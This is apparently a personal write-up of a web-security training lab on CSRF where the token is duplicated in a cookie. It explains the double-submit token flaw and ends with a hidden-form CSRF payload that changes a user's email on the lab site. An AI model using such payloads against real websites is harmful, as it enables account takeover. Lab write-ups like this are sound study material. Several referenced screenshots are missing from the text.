



# **CSRF where token is duplicated in cookie**

This is based in the concept of **double submitting a token,** meaning in this case comparing the token sent in the cookies and the token sent in the URL params, I suspect there are other ways but didn’t look into it more extensively.

For example this request with test/test in the credentials works:



This lab also has the sames vulnerability as the previous one, where we are saving the search term in the cookies and this might be potentially exploitable:



And it is:



So the payload will be almost the same, just remember this one is csrf not csrfKey:

```
<form method="POST" action="https://0a89008e04cf4b228c065a4400d80057.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@hacker.com">
    <input type="hidden" name="csrf"  value="hack">
    
</form>
```
